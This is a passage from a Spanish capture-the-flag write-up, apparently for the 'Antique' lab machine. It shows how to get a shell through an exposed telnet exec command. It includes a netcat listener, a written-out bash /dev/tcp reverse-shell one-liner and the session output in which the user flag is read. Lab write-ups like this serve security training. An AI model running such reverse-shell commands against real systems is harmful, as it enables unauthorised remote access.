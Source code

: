 
<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="Telnet2">Obteniendo una Shell desde Servicio Telnet</h2>

Probemos primero el comando que viene en el mensaje:
```bash
...
exec: execute system commands (exec id)
exit: quit from telnet session
> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
```

Bien, probemos otros comandos:
```bash
> exec ls
telnet.py
user.txt
> exec ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```

Muy bien, ahora si, vamos a obtener esa shell, por pasos:
* Abre una **netcat**:
```bash
nc -nvlp 443                  
listening on [any] 443 ...
```

* Utiliza el siguiente comando para obtener la shell:
```bash
exec bash -c "bash -i >& /dev/tcp/Tu_IP/443 0>&1"
```

* Vuelve a observar la netcat y ya debería estar conectado a la máquina:
```bash
nc -nvlp 443                  
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.11.107] 58544
bash: cannot set terminal process group (1007): Inappropriate ioctl for device
bash: no job control in this shell
lp@antique:~$ whoami
whoami
lp
lp@antique:~$ ls
ls
telnet.py
user.txt
lp@antique:~$ cat user.txt
cat user.txt
...
```
Excelente, ya obtuvimos la flag del usuario, es momento de buscar la forma de convertirnos en Root.
